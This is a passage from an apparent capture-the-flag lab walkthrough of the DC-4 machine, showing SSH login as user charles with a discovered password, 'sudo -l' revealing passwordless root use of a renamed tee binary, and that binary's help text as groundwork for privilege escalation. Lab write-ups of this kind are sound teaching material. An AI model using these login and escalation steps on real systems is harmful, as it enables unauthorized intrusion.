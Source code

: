 Let's try out this password for charles:

```bash
$ ssh charles@192.168.216.195
charles@192.168.216.195's password:
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
charles@dc-4:~$
```

It works. Check `sudo` privileges:

```bash
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

Check out this binary's features:

```bash
charles@dc-4:~$ /usr/bin/teehee --help
Usage: /usr/bin/teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'
```
